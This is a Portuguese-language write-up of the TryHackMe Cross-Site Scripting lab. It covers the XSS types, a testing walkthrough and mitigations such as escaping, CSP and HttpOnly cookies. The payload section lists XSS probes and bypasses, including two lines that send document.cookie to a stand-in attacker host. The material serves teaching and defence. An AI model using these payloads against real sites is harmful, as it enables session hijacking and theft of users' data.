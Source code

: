 # Write-up: TryHackMe — XSS (Cross-Site Scripting)

**Plataforma:** TryHackMe  
**Sala:** Introduction to Cross-site Scripting (XSS) — Web Fundamentals / Web Hacking  

---

## 1. Introdução e objetivos da sala

A sala **Cross‑Site Scripting (XSS)** explora vulnerabilidades que permitem a execução de código JavaScript malicioso no navegador de outros usuários. O objetivo é entender os vetores (input refletido, armazenado e baseado no DOM), como identificar e explorar XSS em aplicações web e, principalmente, como mitigar esses riscos.

Objetivos específicos:
- Identificar os três tipos principais de XSS: Reflected, Stored (Persistent), DOM-based.
- Construir payloads simples para testar a presença de XSS.
- Entender impactos (roubo de cookies, session hijacking, defacement, CSRF relay).
- Aprender contramedidas efetivas (escaping, Content Security Policy, sanitização).

---

## 2. Ferramentas utilizadas

* Navegador com DevTools — inspecionar DOM, requests, cookies e console.  
* Burp Suite / proxy HTTP — interceptar e modificar requisições/respostas.  
* `curl` — reproduzir requisições simples.  
* AttackBox / VM do TryHackMe — para testes em ambiente controlado.

---

## 3. Conceitos chave

### Tipos de XSS
- **Reflected XSS (Non-Persistent):** o payload é enviado na requisição (ex.: parâmetro `q` na URL) e refletido na resposta imediatamente — ideal para phishing links ou engenharia social.  
- **Stored XSS (Persistent):** payloads são armazenados no servidor (ex.: comentários, posts) e servidos a outros usuários — maior impacto potencial.  
- **DOM-based XSS:** a vulnerabilidade existe no lado do cliente — o JavaScript da página processa dados do URL, fragment ou outros inputs e injeta no DOM sem sanitização.

### Impactos típicos
- Roubo de Cookies/Session tokens (`document.cookie`) e assumção de sessão.  
- Keylogging, exfiltração de dados sensíveis mostrados na página.  
- Redirecionamento para sites de phishing.  
- Abuso para realizar ações em nome do usuário (CSRF + XSS).  
- Pivot para carregar payloads mais complexos (web shells, etc).

### Sinais de vulnerabilidade
- Parâmetros refletidos na resposta sem escape (ex.: `?search=<script>alert(1)</script>` produz um alert).  
- Inputs que aparecem no DOM (innerHTML) sem sanitização.  
- Campos de formulário que quando visualizados por outro usuário executam scripts.

---

## 4. Metodologia e resolução (walkthrough)

> Exemplo prático típico de um laboratório XSS em TryHackMe.

### Passo 1 — Identificação rápida
1. Procure campos que reflitam input: parâmetros de URL, campos de busca, comentários, perfis de usuário.  
2. Teste payloads simples:
```html
<script>alert('XSS')</script>
```
Se a página executa o `alert`, há XSS. Em muitos labs o `alert` é substituído por uma flag para tornar a exploração guiada.

### Passo 2 — Diferenciar o tipo
- Se o payload aparece apenas na resposta imediata ao clicar em um link: **Reflected**.  
- Se o payload persiste e aparece para outros usuários ou mesmo após reload: **Stored**.  
- Se a resposta não contém o payload mas o console/DOM executa algo quando você altera o fragment/URL: **DOM-based**.

### Passo 3 — Payloads úteis e bypasses
Nem sempre `<script>` funciona — muitas aplicações filtram tags. Alguns payloads alternativos:

**A. Simples (HTML)**
```html
<script>alert(1)</script>
```

**B. Img onerror**
```html
<img src=x onerror=alert('XSS')>
```

**C. Event handler em atributos**
```html
"><svg/onload=alert(1)//
```

**D. JavaScript URI (reflected contexts)**
```html
<a href="javascript:alert(1)">click</a>
```

**E. DOM-based (inserir no fragment/hash)**
```
http://site/?q=<svg/onload=alert(1)>
# or
http://site/#<script>alert(1)</script>
```

**F. Cookies exfiltration (apenas em teste autorizado)**
```js
<script>
new Image().src="http://attacker.com/steal?c="+document.cookie
</script>
```

### Passo 4 — Exploração prática (exemplo)
- Envia-se um comentário com payload `<img src=x onerror=fetch('http://attacker/steal?c='+document.cookie)>`.
- Outro usuário/viewer carrega a página; o navegador do victim executa o fetch e envia cookie para o atacante.
- Em labs, essa técnica costuma revelar uma flag no servidor atacante ou diretamente na página.

---

## 5. Técnicas úteis para testes

- **DOM inspection:** `document.querySelector(...)`, `inspect element` para ver onde o input é inserido.  
- **MutationObserver / console.log:** acompanhar mudanças no DOM que possam inserir payloads.  
- **Burp Intruder / Repeater:** automatizar envio de variantes de payloads.  
- **CSP bypass testing:** verificar se a página tem Content-Security-Policy que bloqueia `eval`, inline scripts etc; testar fontes externas permitidas.

---

## 6. Mitigações e recomendações

1. **Output Encoding / Escaping:** escapar corretamente os dados antes de inseri-los no HTML, atributos, JS, CSS e URL contexts:
   - HTML escape (e.g. `&lt;`, `&gt;`) para conteúdo HTML.
   - Attribute escape para valores de atributos.
   - JavaScript string escape ao inserir dentro de scripts.
2. **Use Safe APIs:** evite `innerHTML` e prefira `textContent` / `setAttribute`. Para templates, use bindings que façam escape automático.  
3. **Content Security Policy (CSP):** implementar políticas que bloqueiem inline scripts (`'unsafe-inline'`) e limitem fontes de scripts a domínios confiáveis; não é uma solução completa, mas reduz impacto.  
4. **Sanitização de entradas:** quando precisar permitir HTML, use bibliotecas de sanitização bem testadas (DOMPurify, sanitize-html) para remover atributos/event handlers perigosos.  
5. **HttpOnly cookies:** marque cookies de sessão como `HttpOnly` para reduzir roubo via `document.cookie` (não impede XSS mas limita alguns vetores).  
6. **SameSite cookies:** para reduzir CSRF e certos exfiltration combos.  
7. **Validação e Content-type:** validar tamanho/charset/input e garantir `Content-Type` corretos.  
8. **WAF e detecção:** regras para detectar padrões de XSS em payloads, embora não substituam boas práticas de codificação.

---

## 7. Lições aprendidas e conclusão

XSS é uma vulnerabilidade com impacto alto e exploração muitas vezes trivial. A sala permite praticar identificação em diferentes contextos (reflected, stored, DOM) e mostra como o simples ato de inserir dados não confiáveis no DOM sem escape pode comprometer usuários.  

Para desenvolvedores: priorize escaping no output, evite APIs inseguras e aplique CSP. Para testadores: pense em todos os contextos onde o input pode ser re-inserido (HTML, atributos, JS, CSS, URL) e construa payloads adaptados a cada contexto.

---
